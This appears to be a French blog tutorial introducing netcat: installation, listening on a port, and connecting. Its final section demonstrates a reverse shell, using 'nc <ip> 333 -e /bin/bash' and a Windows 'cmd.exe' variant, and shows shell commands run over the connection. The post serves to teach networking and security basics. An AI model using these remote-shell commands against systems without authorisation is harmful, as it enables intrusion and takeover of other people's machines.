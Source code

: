 ```yaml
---
title: Netcat, un couteau suisse réseau
author: Davistar
layout: post
permalink: /hacking/netcat_outil_reseau_linux.html
category: hacking
image: /techlovers/assets/2018-10-24/image1netcat.jpg
redirect_to:
  - https://thelinuxcamp.github.io/hacking/netcat_outil_reseau_linux.html
---
```

&nbsp;

## Qu'est-ce que Netcat ?

Netcat (souvent abrégé en nc) est un utilitaire de réseau informatique permettant de lire et d'écrire sur des connexions réseau en utilisant TCP ou UDP. 
Netcat est conçu pour être un back-end fiable pouvant être utilisé directement ou facilement piloté par d'autres programmes et scripts. Parallèlement, il s'agit d'un outil de débogage et d'investigation réseau riche en fonctionnalités, car il peut générer pratiquement tout type de connexion dont l'utilisateur pourrait avoir besoin et dispose de nombreuses fonctionnalités intégrées.

Sa liste de fonctionnalités inclut l'analyse de port, le transfert de fichiers et l'écoute de port. Il peut également être utilisé comme porte dérobée.


## Installation de Netcat :

Netcat est tres simple d'installation:

### Installation Pour Linux :

{% highlight bash %}
$ sudo apt update && apt upgrade -y && apt install netcat -y
{% endhighlight %}

![installation](/techlovers/assets/2018-10-24/image2netcat.png)

### Installation Pour Windows :

Lien de téléchargement => [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

- Extraire l'archive
- Finir l'installation
- Optionnel : pour ceux qui desire juste taper nc dans le terminal, ajouter nc.exe dans l'environement de PATH Windows


## Utilisation de netcat :

### Pour afficher l'aide de netcat

{% highlight bash %}
$ sudo nc -h
{% endhighlight %}

### Pour passer netcat sous écoute :

> * -l = passe netcat en mode écoute
> * -v = pour rendre nectat plus verbeux
> * -p = pour specifier le port à écouter

{% highlight bash %}
$ sudo nc -lvp 444
listening on [any] 444 ...
{% endhighlight %}

![listen](/techlovers/assets/2018-10-24/image3netcat.png)


### Comment se connecter a une ip via netcat :

{% highlight bash %}
$ sudo nc <IP> <PORT>
{% endhighlight %}


### Comment prendre le contrôle d'un processus avec Netcat :

L'outil netcat permet d'effectuer des tâches pour le moins dangereuses même s'il ne represente aucun danger en lui même.

Nous allons voir comment prendre le contrôle du shell d'un système :

Tout d'abord, nous devons ecouter un port. Moi, je vais choisir le port 333.

Nous allons maintenant taper la commande pour ecouter notre port 333.

{% highlight bash %}
$ nc -lvp 333
listening on [any] 333 ...
{% endhighlight %}

On est maintenant sur écoute prêt à recevoir une connexion

Nous allons maintenant taper cette commande-ci pour se connecter à notre port avec un processus.

{% highlight bash %}
$ sudo nc 192.168.1.70 333 -e "/bin/bash"
{% endhighlight %}

Pour prendre le shell de windows, faites ceci:

{% highlight bash %}
C:\Users\Davistar\Desktop > nc.exe 192.168.1.70 333 -e cmd.exe
{% endhighlight %}

Une fois cette commande entrée, vous devez recevoir cela sur le terminal sous écoute.

{% highlight bash %}
$ nc -lvp 333
listening on [any] 333 ...
192.168.1.70: inverse host lookup failed: Unknown host
connect to [192.168.1.70] from (UNKNOWN) [192.168.1.70] 51414
{% endhighlight %}

Cela signifie que le client est bien connecté à votre machine, maintenant on peut exécuter toutes les commandes du shell.

Exemple :

{% highlight bash %}
ps  
  PID TTY          TIME CMD
 7604 pts/1    00:00:00 sudo
 7605 pts/1    00:00:00 bash
 7606 pts/1    00:00:00 ps
{% endhighlight %}

{% highlight bash %}
$ ls

aquatone
Desktop
Documents
Images
Musique
Public
Téléchargements
Templates
video.ogv
Vidéos
wordlist
{% endhighlight %}

{% highlight bash %}
help
GNU bash, version 4.4.23(1)-release (x86_64-pc-linux-gnu)
Ces commandes de shell sont définies de manière interne. Saisissez « help » pour voir cette liste.
Tapez « help nom » pour en savoir plus sur la fonction qui s'appelle « nom ».
Utilisez « info bash » pour en savoir plus sur le shell en général.
Utilisez « man -k » ou « info » pour en savoir plus sur les commandes qui
ne font pas partie de cette liste.

Une astérisque (*) à côté d'un nom signifie que la commande est désactivée.

 job_spec [&]                            history [-c] [-d décalage] [n] ou hi>
 (( expression ))                        if COMMANDES; then COMMANDES; [ elif>
 . nom_fichier [arguments]               jobs [-lnprs] [jobspec ...] ou jobs >
 :                                       kill [-s sigspec | -n signum | -sigs>
 [ arg... ]                              let arg [arg ...]
 [[ expression ]]                        local [option] nom[=valeur] ...
 alias [-p] [nom[=valeur] ... ]          logout [n]
 bg [job_spec ...]                       mapfile [-d délim] [-n nombre] [-O o>
 bind [-lpvsPSVX] [-m keymap] [-f nomf>  popd [-n] [+N | -N]
 break [n]                               printf [-v var] format [arguments]
 builtin [shell-builtin [arg ...]]       pushd [-n] [+N | -N | rép]
 caller [expr]                           pwd [-LP]
 case MOT in [MOTIF [| MOTIF]...) COMM>  read [-ers] [-a tableau] [-d delim] >
 cd [-L|[-P [-e]] [-@]] [rép]            readarray [-n nombre] [-O origine] [>
 command [-pVv] commande [arg ...]       readonly [-aAf] [nom[=valeur] ...] o>
 compgen [-abcdefgjksuv] [-o option] [>  return [n]
 complete [-abcdefgjksuv] [-pr] [-DE] >  select NOM [in MOTS ... ;] do COMMAN>
 compopt [-o|+o option] [-DE] [nom ...>  set [-abefhkmnptuvxBCHP] [-o nom-opt>
 continue [n]                            shift [n]
 coproc [NOM] commande [redirections]    shopt [-pqsu] [-o] [nom_opt ...]
 declare [-aAfFgilnrtux] [-p] [nom[=va>  source nom_fichier [arguments]
 dirs [-clpv] [+N] [-N]                  suspend [-f]
 disown [-h] [-ar] [jobspec ... | pid >  test [expr]
 echo [-neE] [arg ...]                   time [-p] pipeline
 enable [-a] [-dnps] [-f nomfichier] [>  times
 eval [arg ...]                          trap [-lp] [[arg] signal_spec ...]
 exec [-cl] [-a nom] [commande [argume>  true
 exit [n]                                type [-afptP] nom [nom ...]
 export [-fn] [nom[=valeur] ...] ou ex>  typeset [-aAfFgilnrtux] [-p] nom[=va>
 false                                   ulimit [-SHabcdefiklmnpqrstuvxPT] [l>
 fc [-e ename] [-lnr] [premier] [derni>  umask [-p] [-S] [mode]
 fg [job_spec]                           unalias [-a] nom [nom ...]
 for NOM [in MOTS ... ] ; do COMMANDES>  unset [-f] [-v] [-n] [nom ...]
 for (( exp1; exp2; exp3 )); do COMMAN>  until COMMANDES; do COMMANDES; done
 function nom { COMMANDES ; } ou nom (>  variables - Noms et significations d>
 getopts chaineopts nom [arg]            wait [-n] [id ...]
 hash [-lr] [-p nomchemin] [-dt] [nom >  while COMMANDES; do COMMANDES; done
 help [-dms] [motif ...]                 { COMMANDES ; }

{% endhighlight %}

Voilà nous avons l'intégralité du shell.

![screen2](/techlovers/assets/2018-10-24/image4netcat.png)
